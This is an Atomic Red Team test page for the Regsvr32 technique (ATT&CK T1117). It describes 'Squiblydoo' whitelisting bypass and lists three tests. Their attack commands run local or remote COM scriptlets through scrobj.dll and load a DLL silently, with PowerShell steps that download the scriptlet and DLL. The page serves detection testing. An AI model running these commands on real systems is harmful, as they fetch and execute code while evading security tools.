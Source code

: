 # T1117 - Regsvr32
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1117)
<blockquote>Regsvr32.exe is a command-line program used to register and unregister object linking and embedding controls, including dynamic link libraries (DLLs), on Windows systems. Regsvr32.exe can be used to execute arbitrary binaries. (Citation: Microsoft Regsvr32)

Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of, and modules loaded by, the regsvr32.exe process because of whitelists or false positives from Windows using regsvr32.exe for normal operations. Regsvr32.exe is also a Microsoft signed binary.

Regsvr32.exe can also be used to specifically bypass process whitelisting using functionality to load COM scriptlets to execute DLLs under user permissions. Since regsvr32.exe is network and proxy aware, the scripts can be loaded by passing a uniform resource locator (URL) to file on an external Web server as an argument during invocation. This method makes no changes to the Registry as the COM object is not actually registered, only executed. (Citation: LOLBAS Regsvr32) This variation of the technique is often referred to as a "Squiblydoo" attack and has been used in campaigns targeting governments. (Citation: Carbon Black Squiblydoo Apr 2016) (Citation: FireEye Regsvr32 Targeting Mongolian Gov)

Regsvr32.exe can also be leveraged to register a COM Object used to establish Persistence via [Component Object Model Hijacking](https://attack.mitre.org/techniques/T1122). (Citation: Carbon Black Squiblydoo Apr 2016)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Regsvr32 local COM scriptlet execution](#atomic-test-1---regsvr32-local-com-scriptlet-execution)

- [Atomic Test #2 - Regsvr32 remote COM scriptlet execution](#atomic-test-2---regsvr32-remote-com-scriptlet-execution)

- [Atomic Test #3 - Regsvr32 local DLL execution](#atomic-test-3---regsvr32-local-dll-execution)


<br/>

## Atomic Test #1 - Regsvr32 local COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| filename | Name of the local file, include path. | Path | PathToAtomicsFolder&#92;T1117&#92;src&#92;RegSvr32.sct|


#### Attack Commands: Run with `command_prompt`! 


```cmd
regsvr32.exe /s /u /i:#{filename} scrobj.dll
```




#### Dependencies:  Run with `powershell`!
##### Description: Regsvr32.exe must exist on disk at specified location (#{filename})
##### Check Prereq Commands:
```powershell
if (Test-Path #{filename}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{filename}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1117/src/RegSvr32.sct" -OutFile "#{filename}"
```




<br/>
<br/>

## Atomic Test #2 - Regsvr32 remote COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | URL to hosted sct file | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/src/RegSvr32.sct|


#### Attack Commands: Run with `command_prompt`! 


```cmd
regsvr32.exe /s /u /i:#{url} scrobj.dll
```






<br/>
<br/>

## Atomic Test #3 - Regsvr32 local DLL execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_name | Name of DLL to Execute, DLL Should export DllRegisterServer | Path | PathToAtomicsFolder&#92;T1117&#92;bin&#92;AllTheThingsx86.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"IF "%PROCESSOR_ARCHITECTURE%"=="AMD64" (C:\Windows\syswow64\regsvr32.exe /s #{dll_name}) ELSE ( regsvr32.exe /s #{dll_name} )"
```




#### Dependencies:  Run with `powershell`!
##### Description: AllTheThingsx86.dll must exist on disk at specified location (#{dll_name})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_name}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1117/bin/AllTheThingsx86.dll" -OutFile "#{dll_name}"
```




<br/>
